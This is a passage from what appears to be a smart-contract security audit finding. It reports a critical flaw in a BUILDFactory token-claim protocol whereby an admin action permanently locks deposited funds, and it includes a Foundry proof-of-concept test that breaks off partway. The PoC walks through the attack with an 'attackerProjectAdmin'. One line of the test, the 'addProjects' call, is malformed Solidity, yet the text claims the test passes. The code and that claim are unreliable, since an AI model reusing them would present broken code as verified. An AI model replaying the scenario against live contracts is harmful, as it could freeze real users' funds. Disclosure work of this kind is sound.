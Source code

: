 
This is not a temporary freeze. It is a **permanent, irrecoverable destruction of the project's assets**, caused by the intended use of a core administrative function. This directly contradicts the fundamental security assumption that the protocol will safeguard deposited funds.

The contest `README` specifically asks auditors to focus on whether *"any non-negligible reward tokens [are] locked into the contracts."* This vulnerability provides a definitive "yes" to that question, solidifying its Critical severity.

## Proof of Concept

The following Foundry test provides an undeniable, step-by-step demonstration of this permanent fund lock. The test **PASSES** because the exploit scenario plays out exactly as described, with the final `vm.expectRevert` confirming that the funds are inaccessible and permanently locked.

```solidity
// File: test/PoC.t.sol
// SPDX-License-Identifier: MIT
pragma solidity 0.8.26;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";

import {BUILDFactory} from "src/BUILDFactory.sol";
import {BUILDClaim} from "src/BUILDClaim.sol";
import {IBUILDFactory} from "src/interfaces/IBUILDFactory.sol";
import {ERC20} from "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import {IDelegateRegistry} from "@delegatexyz/delegate-registry/v2.0/src/IDelegateRegistry.sol";
import {IERC20Errors} from "@openzeppelin/contracts/interfaces/draft-IERC6093.sol";

contract MintableERC20 is ERC20 {
    constructor() ERC20("Mock Token", "MTK") {}
    function mint(address to, uint256 amount) public { _mint(to, amount); }
}

contract StubRegistry {
    function checkDelegateForContract(address,address,address,bytes32) external pure returns (bool) { return false; }
}

contract ProofOfConcept is Test {
    BUILDFactory public factory;
    MintableERC20 public token;
    StubRegistry public stubRegistry;
    address public factoryAdmin = makeAddr("factoryAdmin");
    address public originalProjectAdmin = makeAddr("originalProjectAdmin");
    address public attackerProjectAdmin = makeAddr("attackerProjectAdmin");

    function test_PoC_StaleStateCausesPermanentFundLock() public {
        // --- 1. A legitimate project deposits funds ---
        console.log("--- Phase 1: A legitimate project deposits funds ---");
        // Setup: Deploy factory and add the original project
        stubRegistry = new StubRegistry();
        token = new MintableERC20();
        vm.prank(factoryAdmin);
        factory = new BUILDFactory(BUILDFactory.ConstructorParams({ admin: factoryAdmin, maxUnlockDuration: 30 days, maxUnlockDelay: 7 days, delegateRegistry: IDelegateRegistry(address(stubRegistry)) }));
        vm.prank(factoryAdmin);
        factory.addProjects(IBUILDFactory.AddProjectParams[] (new IBUILDFactory.AddProjectParams[](1)) (
            IBUILDFactory.AddProjectParams({ token: address(token), admin: originalProjectAdmin })
        ));
        // The project deposits funds into its own claim contract
        vm.prank(originalProjectAdmin);
```